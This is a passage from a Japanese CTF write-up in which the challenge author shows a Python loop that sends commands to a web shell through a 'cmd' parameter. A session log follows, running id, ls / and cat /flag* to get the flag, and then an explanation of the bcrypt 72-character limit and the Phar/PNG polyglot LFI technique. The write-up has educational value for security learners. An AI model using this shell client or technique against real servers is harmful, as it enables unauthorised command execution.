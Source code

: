 ```python
while True:
  command = input('> ')
  c = sess.get(URL + '?cmd=' + urllib.parse.quote(command)).content.decode()
  result = re.findall(r'/\* light/dark.css \*/(.+)/\*\*/', c, flags=re.DOTALL)[0]
  print(result.strip())
```

`cat /flag*` でフラグが得られました。

```
$ python solver.py
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ls /
bin
boot
dev
etc
flag2-dea5b73356499c78
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
> cat /flag*
HarekazeCTF{lfi_with_phar_is_fun}
```

```
HarekazeCTF{lfi_with_phar_is_fun}
```

---

正答チーム数は 11 チームでした。

フラグが雑ですね。この問題は「`password_hash` の仕様を悪用する」「Phar と PNG の polyglot で `.css` という拡張子が付与されるのを回避して LFI する」の 2 つが主な要素なのですが、作問時に何も考えていなかったので後者だけがフラグに盛り込まれました。

`password_hash` の仕様は [bcryptの72文字制限をSHA-512ハッシュで回避する方式の注意点 \| 徳丸浩の日記](https://blog.tokumaru.org/2019/02/caution-bcrypt-with-sha512.html)で初めて知りました。この記事で紹介されている "PHPのbcrypt実装はバイナリセーフでない" という仕様を利用した問題は [CPCTF 2019](https://cpctf.space/challenges) の [Password: S5](https://cpctf.space/challenges/ab6936c9-1768-4836-b512-f685f757535c?hide=true) があるのですが、パスワードの 72 文字制限については過去問が見当たらなかったため、今回この仕様を利用した問題を作成しました。
